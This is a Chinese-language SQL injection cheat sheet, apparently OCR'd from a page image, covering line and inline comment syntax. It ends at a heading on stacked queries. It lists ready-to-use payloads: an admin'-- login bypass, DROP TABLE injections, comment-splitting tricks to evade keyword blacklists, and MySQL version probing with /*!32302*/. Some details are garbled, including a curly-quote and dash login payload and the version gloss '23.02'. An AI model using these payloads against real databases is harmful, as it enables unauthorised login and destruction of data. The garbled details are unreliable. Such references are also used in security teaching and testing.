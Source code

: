 语法参考、攻击示例和注入小技巧

结束 / 注释掉 / 行注释

行间注释

注释掉查询语句的其余部分

行间注释通常用于忽略掉查询语句的其余部分，这样你就不用处理因为注入导致的语法变动。

— （SM）

DROP sampletable;--

# （M）

DROP sampletable;#

行间注释的 SQL 注入攻击示例

用户名：admin’–

SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'

这会让你以admin用户身份登录，因为其余部分的SQL语句被注释掉了。

行内注释

通过不关闭的注释，注释掉查询语句的其余部分，或者用于绕过黑名单过滤、移除空格、迷惑和探测数据库版本。

/*这里是注释内容*/ （SM）
DROP/*注释*/sampletable
DR/**/OP/*绕过过滤*/sampletable
SELECT/*消除空格*/password/**/FROM/**/Members

/*! MYSQL 专有 SQL */ （M）

这是 MySQL 的专有语法。非常适合用来探测 MySQL 版本。如果你在注释中写入代码，只有 MySQL 才会执行。你同样可以使用这个方法，让代码只在服务器版本高于指定版本才执行。

SELECT /*!32302 1/0, */ 1 FROM tablename

经典的行内注释 SQL 注入攻击示例

ID: 10; DROP TABLE members /*

在查询结尾简单地去除其他内容。等同于 10; DROP TABLE members —

SELECT /*!32302 1/0, */ 1 FROM tablename

如果 MySQL 版本高于 23.02 会抛出一个除数为 0（division by 0）的错误

MySQL 版本探测攻击示例

ID: /*!32302 10*/
ID: 10

如果 MySQL 的版本高于 23.02，执行上面两个查询你将得到相同的结果

SELECT /*!32302 1/0, */ 1 FROM tablename

如果 MySQL 版本高于 23.02 会抛出一个除数为 0（division by 0）的错误

堆叠查询
